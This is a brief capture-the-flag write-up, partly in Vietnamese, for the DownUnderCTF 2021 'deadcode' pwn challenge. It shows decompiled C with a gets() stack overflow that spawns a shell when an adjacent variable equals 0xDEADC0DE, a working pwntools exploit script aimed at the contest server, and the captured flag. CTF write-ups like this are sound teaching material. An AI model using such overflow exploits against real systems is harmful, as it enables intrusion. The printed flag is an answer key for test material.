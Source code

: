 # DEADCODE
Hàm main fuction
```sh
char v4[24]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = 0LL;
  buffer_init(argc, argv, envp);
  puts("\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.");
  puts("\nWhat features would you like to see in my app?");
  gets(v4);
  if ( v5 == 3735929054LL )
  {
    puts("\n\nMaybe this code isn't so dead...");
    system("/bin/sh");
  }
  return 0;
```
Chỉ cần đè V5 = 0xDEADC0DE, lấy được flag
```sh
from pwn import *
s = process("./deadcode")
#server
s = remote("pwn-2021.duc.tf", 31916)
s.sendline("a"*24+p64(0xDEADC0DE))
s.interactive()
```
### FLAG >> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}